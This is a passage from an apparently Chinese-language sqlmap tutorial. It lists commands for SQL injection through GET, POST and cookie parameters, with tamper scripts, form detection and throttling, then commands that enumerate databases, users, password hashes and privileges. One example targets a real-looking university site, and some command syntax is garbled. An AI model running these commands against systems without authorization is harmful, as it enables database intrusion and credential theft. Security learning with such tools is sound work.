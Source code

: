 可以提供一个简单的`URL，Burp`或`WebScarab`请求日志文件，文本文档中的完整`http`请求或者`Google`的搜索，匹配出结果页面，也可以自己定义一个正则来判断那个地址去测试。测试`GET`参数，`POST`参数，`HTTP Cookie`参数，`HTTP User-Agent`头和`HTTP Referer`头来确认是否有`SQL`注入，它也可以指定用逗号分隔的列表的具体参数来测试。可以设定`HTTP(S)`请求的并发数，来提高盲注时的效率。

**GET方式**

```
sqlmap -u "url" //这个URL必须含？
```

**POST方式**

```
sqlmap -u http://testasp.vulnweb.com/Login.asp --data "tfUName=1&tfUPass=1"
```

**cookie注入**

```
sqlmap -u "url" --cookie "chsadj" --level 2 //这里的URL去掉？及其后的内容，并将它们放在cookie的内容里面
```

**tamper方式**

```
sqlmap -u "url" -v 3 --batch --tamper "sac.py"  //temper后面的插件可以去sql安装目录查找
```

**自动检测表**

```
sqlmap -u http://testasp.vulnweb.com/Login.asp --forms
```

**延时两秒**

```
Sqlmap –u “url” --delay 2
```

**频率3次**

```
Sqlmap –u “url” --safe-freq 3
```

**伪静态**

```
Sqlmap -u http://sfl.fzu.edu.cn/index.php/Index/view/id/40.html //在40后面加*
```

#### 3.2 查看数据库

`sqlmap`支持的数据库管理系统有：

```
MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2,
SQLite, Firebird, Sybase和SAP MaxDB
```

**命令**

```
sqlmap -u "url" --dbs   //查看所有数据库
sqlmap -u "url" --users //查看所有用户
sqlmap -u "url" --current-db //查看当前的数据库
sqlmap -u "url" --current-user //产看当前的用户
sqlmap -u "url" --is-dba //查看是否是最高权限
sqlmap -u "url" --passwords //查看所有密码
sqlmap -u "url" –hostname //查看主机名
sqlmap -u "url" privileges -U username //查看用户权限
sqlmap -u "url" –roles //查看用户角色
```
